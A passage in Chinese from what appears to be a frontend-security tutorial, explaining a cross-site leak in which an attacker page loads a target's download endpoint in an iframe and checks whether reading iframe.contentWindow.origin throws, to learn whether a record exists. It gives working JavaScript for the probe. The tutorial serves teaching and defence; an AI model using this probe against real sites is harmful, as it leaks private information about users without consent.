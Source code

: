 ![](/img/posts/huli/learn-frontend-from-security-pov/p6-search2.png)

身為一個攻擊者，我們知道這個資訊以後可以做些什麼呢？

假設我有一個自己的網站，網址是 `https://huli.tw`，接著我在我的網站上面把剛剛的範例網站用 iframe 嵌入：

``` js
const iframe = document.createElement('iframe')
iframe.src = "https://example.com/download?q=user01"
document.body.appendChild(iframe)
```

這時候關鍵的來了，如果 `user01` 這筆資料不存在於資料庫裡面，當我試著存取 `iframe.contentWindow.origin` 的時候就會出錯，這是因為 `huli.tw` 跟 `example.com` 不是同源的網站，所以被瀏覽器的 Same-Origin Policy 擋了下來。

但是呢！如果 `user01` 這筆資料存在於資料庫裡面，不是就會直接跳出下載畫面嗎？這時候如果我去存取 `iframe.contentWindow.origin`，就不會出錯，因為我會拿到 `null` 這個結果。

所以我們可以根據存取 `iframe.contentWindow.origin` 的結果，得知某個關鍵字是否存在於資料庫裡面：

``` js
const iframe = document.createElement('iframe')
iframe.src = "https://example.com/download?q=user01"
document.body.appendChild(iframe)

// 先假設一秒後會載入完畢，可以做到更精確但先跳過
setTimeout(() => {
    try {
        iframe.contentWindow.origin
        console.log('使用者存在')
    } catch(err) {
        console.log('使用者不存在')
    }
}, 1000)
```
